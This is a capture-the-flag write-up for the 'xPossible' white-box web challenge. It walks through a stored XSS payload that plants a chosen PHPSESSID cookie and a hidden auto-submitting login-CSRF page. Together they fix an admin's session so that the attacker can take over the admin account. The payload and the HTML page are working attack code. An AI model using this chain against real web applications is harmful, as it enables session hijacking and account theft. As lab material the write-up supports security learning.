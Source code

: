# Exploit `xPossible` chanllenge

## Source
- [challenge source](https://github.com/VoorivexTeam/white-box-challenges/tree/main/xPossible)

## WriteUp

    - login to your user, `user`:`pass`
    - update your profile
    - `name`:
        ```html
            <script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>
        ```
        - this payload will set a valid session id that we have, put your session id, (`PHPSESSID` is in your `cookies`)
    - submit your profile
    - create another page with this code
        ```html
        <!DOCTYPE html>
        <html lang="en">
        <head>
            <meta charset="UTF-8">
            <meta name="viewport" content="width=device-width, initial-scale=1.0">
            <title>Login Redirector</title>
            <style>
                body {
                    font-family: Arial, sans-serif;
                    max-width: 600px;
                    margin: 0 auto;
                    padding: 20px;
                    line-height: 1.6;
                }
                .login-form {
                    display: none; /* Hide the form */
                }
            </style>
        </head>
        <body>
            <h1>Login to xPossible</h1>
            
            <!-- Method 1: Form submission -->
            <div class="login-form">
                <h2>Method 1: Direct Form Submission</h2>
                <form id="loginForm" action="http://mysite.com:10000/index.php" method="POST">
                    <input type="text" name="username" placeholder="Username" value="user" required>
                    <input type="password" name="password" placeholder="Password" value="pass" required>
                    <input type="hidden" name="login" value="1">
                    <button type="submit">Login</button>
                </form>
            </div>

            <script>
                // Automatically submit the form when page loads
                window.onload = function() {
                    document.getElementById('loginForm').submit();
                };
                //"<script>document.cookie="PHPSESSID=7dfd308acefd139c2e834742b2a1fc67; path=/;";window.location='?logout';</script>"
            </script>
        </body>
        </html>

        ```
        - code will login to your account and make that XSS payload run, when the `victim` visit this page, will login to your account, and logout base on your XSS
    - give this page to a admin, when the admin visit this page, will logged in to your account, make the XSS to run, and then logged out
    - next time the admin logged in to his/her account, the data will be saved on the session that you wrote with your XSS
    - just put the `PHPSESSID` in your `cookies` and you are in admin account.